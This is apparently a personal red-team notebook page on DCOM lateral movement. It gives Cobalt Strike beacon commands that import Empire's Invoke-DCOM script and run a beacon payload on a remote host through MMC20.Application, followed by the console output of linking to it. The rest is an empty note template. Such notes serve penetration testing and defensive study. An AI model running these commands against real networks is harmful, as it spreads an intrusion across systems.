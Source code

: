 ```yaml
---
creation date: September 23rd 2022
last modified date: September 23rd 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[DCOM]]  
___

## Description:  
For Lateral Movement.


### CobaltStrike
Beacon has no built-in capabilities to interact over Distributed Component Object Model (DCOM), so must use an external tool such as [Invoke-DCOM](https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1). 

```
beacon> powershell-import C:\Tools\Invoke-DCOM.ps1
beacon> powershell Invoke-DCOM -ComputerName srv-1 -Method MMC20.Application -Command C:\Windows\beacon-smb.exe
Completed

beacon> link srv-1
[+] established link to child beacon: 10.10.17.25

```



___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 23rd 2022 (04:27 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
